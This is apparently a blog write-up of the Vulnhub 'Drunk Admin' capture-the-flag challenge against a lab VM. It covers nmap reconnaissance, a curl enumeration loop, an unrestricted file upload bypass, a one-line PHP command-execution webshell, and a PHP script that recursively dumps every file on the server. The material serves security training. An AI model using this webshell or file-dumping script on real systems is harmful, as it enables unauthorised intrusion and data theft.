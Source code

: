 ```yaml
---
layout: blog
title: Drunk Admin challenge
date:   2017-03-07 19:30:00 +0100
categories: itsec
---
```


## Intro
This walkthrough is about the [Drunk Admin](https://www.vulnhub.com/entry/drunk-admin-web-hacking-challenge-1,14/) challenge, I've found on [Vulnhub](https://www.vulnhub.com/). Just download the zip file, and create a VirtualBox machine from it, and you are ready to go.

## Recon
You can just log in to the console of the virtual machine with the credentials root:toor to find out the ip, or run the command `nmap -sP 192.168.58.1/24` for a ping sweep. Just make sure to use your own ip range. In my case, the host is 192.168.58.101, so I will use this address later.
Let's check the open ports of the machine, to find out possible vulnerable services, with `sudo nmap -A -O -p 1-65535 192.168.58.101`. The result is the following:
```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-06 23:11 CET
Nmap scan report for 192.168.58.101
Host is up (0.00063s latency).
Not shown: 64998 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.5p1 Debian 6+squeeze1 (protocol 2.0)
| ssh-hostkey: 
|   1024 57:a2:04:3d:6e:e5:01:7b:b4:c6:e5:f9:76:25:8a:8a (DSA)
|_  2048 66:9a:ee:a2:2a:1a:59:47:b9:c5:50:da:a6:96:76:16 (RSA)
8880/tcp open  http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: Tripios
MAC Address: 08:00:27:06:12:7C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.26 - 2.6.35, Linux 2.6.32
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.58.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.06 seconds
```
Great, this means we have a running apache on port 8880, let's check it in a browser. It should look like this:
![Drunk Admin home page]({{ site.url }}/assets/images/drunk-admin-1.png)

## Explore the website
If you click on the PHP link on the bottom of the page, it leads to http://192.168.58.101:8880/myphp.php?id=102 . This is very suspicios, it seems like the id parameter can be tricked. There is a small shell script to scrape all the results in the range of 1 to 200, excluding the ones, which are protected by the php script, saying "Try harder".
[enummyphp.sh](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/enummyphp.sh)
```bash
#!/bin/bash
for N in {1..200}
do
    echo $N
    curl "http://192.168.58.101:8880/myphp.php?id=$N" > tmp
    if ! grep -q "Try harder" "tmp"; then
        cp tmp "$N.html"
        echo "http://192.168.58.101:8880/myphp.php?id=$N"
    fi
done
```
The results of the following script are:
* 101.html
* 102.html
* 104.html
* 108.html
* 116.html
* 132.html
* 164.html
* 99.html

All are phpinfo results, 99 is the full one, and 132 is the $\_SERVER variables. However, it is not a real exploit, so let's try to dig deeper. However, this information can be useful in the future.

## Exploit the website

Going through the website, the low hanging fruit is upload.php, which uploads a user specified picture, and provides a link for it, which looks like some hash, plus the extension. So the image upload works fine, as designed, but what happens, if I try to upload a php file? It seems like there is a restriction about file extensions, which is a great security feature, but does it work as designed?

Let's try to upload a file named sample.php.jpg. It doesn't display an error, however it doesn't display and image as well. After some digging in the request/response data, there is a suspicios cookie, named trypios, which contains a hash. What if I try to access this file in a way how images are stored, but with the hash plus php extesion? It actually works, and displays the result of the `phpinfo();` function. This vulnerability by [OWASP](https://www.owasp.org/) is specified as [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload). Let's see what we can do with this.

My first guess was to try to get a [Command Injection](https://www.owasp.org/index.php/Command_Injection), by uploading a vulnerable php script, which enables a user to execute any command under the web server's user privileges. It looks like this:

```php
<?php
exec($_GET['cmd']);
?>
```

Which results in a "Oh, you are naughty" message. After further investigation, my guess was that the upload script somehow verifies the content of the uploaded file, and disallows either the php function call exec, or the access of the variable $\_GET. But this doesn't stop me to enumerate the whole content of the webserver's root directory!

## Can I haz all the files?

So I created a simple php script to go through the whole content of the webserver, and print it. For the first try, it gave me some garbage, obviously the binary content of the uploaded images were present, so I had to exclude those. But what exclusion rule would be better, than the drunk admin's own?:)

[dirlist.jpg.php](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/dirlist.jpg.php)
```php
<?php 
function sd($dir){
	$dc = scandir($dir);
	foreach($dc as $f){
		if($f == "." || $f == ".." || preg_match("/^.*\.(bmp|jpeg|gif|png|jpg).*$/i", $f)) continue;
		$f = $dir."/".$f;
		print $dir.$f."\n";
		if(is_dir($f)){
			print "dir";
			sd($f);
		}elseif(is_file($f)){
			print("<h3>$f</h3>");
			print_r(file_get_contents($f));
		}
    }
}
sd("../");
?>
```
Let's see what we got! There is a file, which is not accessible by the public, it has been disabled by an .htaccess configuration rule, which is a great practice, but php can read it regardless, and this is our next step. The filename is .proof, and the content is:

```
# Drunk Admin Challenge #
#     by @anestisb  #
#########################

bob> Great work.
bob> Meet me there.
...> ?
bob> What? You don't know where?
bob> Work a little more your post
     exploitation skills.

Secret Code:
TGglMUxecjJDSDclN1Ej

Mail me your methods at:
anestis@bechtsoudis.com
```
Gotcha. At least we know the message, but not the place. What is this secret code for? Let's try to dig deeper.

## Solution
As we have seen previously, the [mod_userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) is enabled, which allows users to share their content on the webserver, by creating a directory named public_html in their home directory. What if I'm very greedy, and try to get all the contents of the home directories in the system, by using the php script I used to enumerate the root of the webserver?

So it seems, there is a user called bob, who uses this feature of [Apache](https://httpd.apache.org/). And in the folder /home/bob/public_html, we can find some very interesting content. After trying to input the secret from the previous message to http://192.168.58.101/~bob/, and receiving some garbage, I went through the contents of other php files, eg. encrypt.php. So it seems like bob uses [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) to hide his secret from us. But this code doesn't return any useful answer, and after checking the actual index.php script, the cipher looks like some base64 encoded string. Decoding the secret with base64, and posting to index.php reveals the last information for the secret meeting:
```
Alice, prepare for a kinky night. Meet me at '35.517286' '24.017637'
```
It's time to travel to Crete!

